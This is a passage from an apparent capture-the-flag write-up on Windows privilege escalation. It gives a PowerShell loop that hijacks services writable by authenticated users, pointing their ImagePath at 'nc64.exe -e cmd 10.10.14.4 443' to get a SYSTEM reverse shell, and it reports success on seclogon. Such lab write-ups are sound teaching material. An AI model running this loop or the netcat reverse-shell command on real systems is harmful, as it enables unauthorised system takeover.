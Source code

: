 

### Exploit Loop = Shell

For some reason, the first couple of these I tried didn't work. From
here, I just decided to try them all. Here's the expanded code:



    foreach ($service in $services) { 
      $sddl = (cmd /c sc sdshow $service)[1]; 
      $reg = gp -path hklm:\system\currentcontrolset\services\$service; 
      if ($sddl -match "RP[A-Z]*?;;;AU" -and $reg.ObjectName -eq "LocalSystem") { 
        write-host "Trying to hijack $service"; 
        $old_path = (get-itemproperty HKLM:\system\currentcontrolset\services\wuauserv).ImagePath; 
        set-itemproperty -erroraction silentlycontinue -path HKLM:\system\currentcontrolset\services\$service -name imagepath -value "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.4 443"; 
        start-service $service -erroraction silentlycontinue; 
        set-itemproperty -path HKLM:\system\currentcontrolset\services\$service -name imagepath -value $old_path 
      }
    }



It starts just like the loop above, but when the conditions match,
instead of writing the service name, it writes a message, then gets the
old value for the service binary. Then it sets that path to `nc.exe`
connecting back to me. It then starts the service, and the puts the
original bin path back.

When I run this, when it gets to `seclogon`, I get a shell:

[![](/img/image-20200423170843330.png)*Click
for full size